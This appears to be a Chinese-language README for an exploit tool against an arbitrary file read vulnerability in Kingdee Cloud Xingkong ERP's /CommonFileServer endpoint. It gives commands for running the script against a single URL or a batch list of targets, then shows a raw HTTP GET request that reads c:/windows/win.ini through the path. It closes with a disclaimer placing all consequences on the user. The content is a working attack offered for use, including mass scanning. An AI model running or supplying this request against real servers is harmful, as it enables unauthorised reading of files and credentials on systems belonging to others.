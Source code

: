 # 金蝶云星空 CommonFileserver 任意文件读取

金蝶云星空 /CommonFileserver 存在任意文件读取漏洞。


## 工具利用

python3 Kingdee-erp_fileread.py -u http://127.0.0.1:1111 单个url测试

python3 Kingdee-erp_fileread.py -f url.txt 批量检测

![exp](./poc.jpg)

读取win.ini文件内容
```
GET /CommonFileServer/c:/windows/win.ini HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.676.91 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
